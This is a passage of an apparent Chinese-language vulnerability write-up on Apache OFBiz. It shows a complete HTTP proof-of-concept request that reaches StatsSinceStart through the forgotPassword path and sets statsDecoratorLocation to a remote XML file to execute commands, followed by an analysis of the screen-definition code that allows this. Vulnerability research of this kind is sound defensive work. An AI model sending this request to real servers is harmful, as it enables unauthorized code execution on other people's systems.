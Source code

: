 向  
/webtools/control/forgotPassword/StatsSinceStart  
传递定义文件。  
```
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: 127.0.0.1:8443
Cookie: OFBiz.Visitor=10100
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

statsDecoratorLocation=http://127.0.0.1:8888/ssrfpoc.xml
```  
  
执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFh2VNniaxD2l3EuRS0HxWuJZY1X8WNn6Y9a0hnKjItFJs313UbJyGnqg/640?wx_fmt=png&from=appmsg "")  
### 3-3. 漏洞分析    
  
在 controller.xml 中定义了路由   
/StatsSinceStart  
，  
security.auth  
 为  true，直接访问需要权限。视图指向  
component://webtools/widget/StatsScreens.xml#StatsSinceStart  
，会调用 StatsSinceStart.groovy 脚本，但是这里没有可利用的点。  
  
在 StatsSinceStart.xml 的   
<widgets>  
   
标签下名为   
StatsDecorator  
 装饰器屏幕的定义中，  
${parameters.statsDecoratorLocation}  
 是前端可控的，允许从远程加载屏幕定义文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFOia4m2WHbsS7AyulpfWGJZeVkicUVoe2kYXVhrQ6g2l2iaia5cjQamAxKQ/640?wx_fmt=png&from=appmsg "")  
  
读取 StatsScreens.xml 文件，逐层解析标签到 StatsDecorator 装饰器，从前端 statsDecoratorLocation 参数获取到远程 StatsDecorator 定义文件的地址。  
  